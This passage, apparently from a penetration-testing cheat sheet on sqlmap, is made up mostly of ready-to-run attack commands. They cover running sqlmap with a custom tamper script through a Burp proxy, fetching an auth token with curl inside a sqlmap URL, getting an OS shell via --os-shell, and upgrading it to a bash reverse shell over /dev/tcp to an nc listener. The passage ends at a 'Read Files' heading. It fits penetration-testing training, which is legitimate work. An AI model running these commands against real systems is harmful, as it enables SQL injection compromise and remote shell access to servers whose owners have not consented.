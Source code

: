 ```python

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    change_profile(payload)
    return payload
```

By setting the proxy to **`http://127.0.0.1:8080`**, we can see the requests and the responses in BurpSuite.  
After creating, run sqlmap as below.

```bash
# Create this file in current directory to avoid error when running sqlmap with tamper
touch __init__.py

sqlmap --tamper tamper.py -r req1.txt -p email --second-req req2.txt --proxy http://127.0.0.1:8080
```

<br />

## Integrate with Other Commands

We can set a dynamic value to the parameter by including another command such as `curl` as follow:

```bash
sqlmap -u """https://example.com/?q=test&token=`curl https://api.example.com/auth -X POST -d "username=admin&password=admin" | awk -F '"' '{print$12}'`"""
```

<br />

## Web Shell

Add option "--os-shell" to interact with web shell.

```sh
sqlmap -u "http://<target-ip>" --cookie="value=*" --os-shell
```

After activating, you may want to upgrade to the full functional shell.  
You can do that using reverse shell.

In your local machine,

```sh
nc -lvnp 4444
```

Then execute the following command in web shell.

```sh
os-shell> bash -c 'bash -i >& /dev/tcp/<your-local-ip>/4444 0>&1'
```

<br />

## Read Files

